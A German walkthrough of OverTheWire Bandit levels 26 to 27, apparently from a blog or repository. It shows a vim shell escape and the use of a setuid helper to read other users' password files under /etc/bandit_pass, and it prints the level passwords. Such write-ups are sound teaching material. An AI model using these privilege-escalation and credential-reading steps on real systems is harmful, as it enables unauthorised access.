 Alternativ können wir uns auch eine Shell geben durch:

```vim
:set shell=/bin/bash
```

und danach

```vim
:shell
```

Nun haben wir eine Shell.

```shell
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

## **Level 26 -> Level 27**

Wir melden uns nun als **bandit26** mit dem Passwort **5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z** an.  
Der Tipp zu diesem Level ist wie folgt:  
Denkt beim anmelden per SSH an das was wir im letzen Level herausgefunden haben...

Damit die Verbindung nicht sofort geschlossen wird, müssen wir die letzten Schritte des vorherigen Levels wiederholen. Das Terminal klein ziehen, **v** drücken um [vim](https://de.wikipedia.org/wiki/Vim) zu öffnen und dann:

```vim
:set shell=/bin/bash
:shell
```

Wir haben nun wieder eine Shell. :)

```shell
bandit26@bandit:~$ ls -l
total 12
-rwsr-x--- 1 bandit27 bandit26 7296 Oct 16  2018 bandit27-do
-rw-r----- 1 bandit26 bandit26  258 Oct 16  2018 text.txt

```

Wir haben hier also 2 Dateien. **text.txt** enthält nur das Banner. Führen wir also mal **bandit27-do** aus.

```shell
bandit26@bandit:~$ ./bandit27-do 
Run a command as another user.
  Example: ./bandit27-do id
  ```

Wie wir bei **ls -l** schon sehen konnten, hat diese Binary das [setuid bit](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) gesetzt! Wir können hiermit also Befehle als ein anderer User ausführen. In diesem Falle ist dies **bandit27**!

```shell
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```
